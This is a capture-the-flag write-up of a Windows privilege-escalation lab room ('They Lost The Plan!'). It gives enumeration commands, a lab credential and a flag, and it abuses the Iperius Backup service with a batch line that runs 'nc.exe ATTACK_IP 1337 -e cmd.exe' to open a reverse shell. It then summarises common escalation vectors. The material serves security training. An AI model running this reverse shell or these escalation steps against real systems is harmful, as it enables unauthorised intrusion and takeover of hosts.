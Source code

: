 # [Day13] *Networking* They Lost The Plan! 

-------------

> Author Razvan Bielz \
> Date: 14 Jan 2022

--------------

## Info

`IP: 10.10.215.32`

### Accounts

> mcskidy:Password1

--------------

## Steps

1. `nmap -sC -sV -Pn 10.10.215.32 | tee 13-nmap.txt`
2. `net users` lists users on the target system
3. `net localgroup Administrators` check all Admins
4. `systeminfo | findstr /B /C: "OS Name"/C: "OS Version"` info about os
5. `wmic service list` installed services
6. **Iperius Backup Services** privesc vulnerability
7. `@echo off`  
  `C:\Users\McSkidy\Downloads\nc.exe ATTACK_IP 1337 -e cmd.exe`  
  to run before/after backup
8. Launch listener `nc -nlvp 1337`

--------------

## Flags

`THM-736635221`

--------------

## What have we learned?

- AOC_WinPrivEsc
- On a typical Windows server, you may find several different account types; these are summarized below:
  - Domain Administrators: This is typically the highest account level you will find in an enterprise along with Enterprise Administrators. An account with this level of privilege can manage all accounts of the organization, their access levels, and almost anything you can think of. A "domain" is a central registry used to manage all users and computers within the organization.
  - Services: Accounts used by software to perform their tasks such as back-ups or antivirus scans.
  - Domain users: Accounts typically used by employees. These should have just enough privileges to do their daily jobs. For example, a system administrator may restrict a user's ability to install and uninstall software.
  - Local accounts: These accounts are only valid on the local system and can not be used over the domain.
- **Windows Privilege Escalation Vectors**
  - **Stored Credentials**: Important credentials can be saved in files by the user or in the configuration file of an application installed on the target system.
  - **Windows Kernel Exploit**: The Windows operating system installed on the target system can have a known vulnerability that can be exploited to increase privilege levels.
  - **Insecure File/Folder Permissions**: In some situations, even a low privileged user can have read or write privileges over files and folders that can contain sensitive information.
  - **Insecure Service Permissions**: Similar to permissions over sensitive files and folders, low privileged users may have rights over services. These can be somewhat harmless such as querying the service status (SERVICE_QUERY_STATUS) or more interesting rights such as starting and stopping a service (SERVICE_START and SERVICE_STOP, respectively).
  - **DLL Hijacking**: Applications use DLL files to support their execution. You can think of these as smaller applications that can be launched by the main application. Sometimes DLLs that are deleted or not present on the system are called by the application. This error doesn't always result in a failure of the application, and the application can still run. Finding a DLL the application is looking for in a location we can write to can help us create a malicious DLL file that will be run by the application. In such a case, the malicious DLL will run with the main application's privilege level. If the application has a higher privilege level than our current user, this could allow us to launch a shell with a higher privilege level.
  - **Unquoted Service Path**: If the executable path of a service contains a space and is not enclosed within quotes, a hacker could introduce their own malicious executables to run instead of the intended executable.
  - **Always Install Elevated**: Windows applications can be installed using Windows Installer (also known as MSI packages) files. These files make the installation process easy and straightforward. Windows systems can be configured with the "AlwaysInstallElevated" policy. This allows the installation process to run with administrator privileges without requiring the user to have these privileges. This feature allows users to install software that may need higher privileges without having this privilege level. If "AlwaysInstallElevated" is configured, a malicious executable packaged as an MSI file could be run to obtain a higher privilege level.
  - **Other software**: Software, applications, or scripts installed on the target machine may also provide privilege escalation vectors.
Ideally, McSkidy should explore all these. Privilege escalation does not have a silver bullet, and the vector that will work depends not only on the configuration of the target system but, in some cases, to user behaviour (e.g. finding a passwords.txt file on the desktop where the user notes his account passwords). In some cases, you will need to combine two or more vectors to achieve the desired result.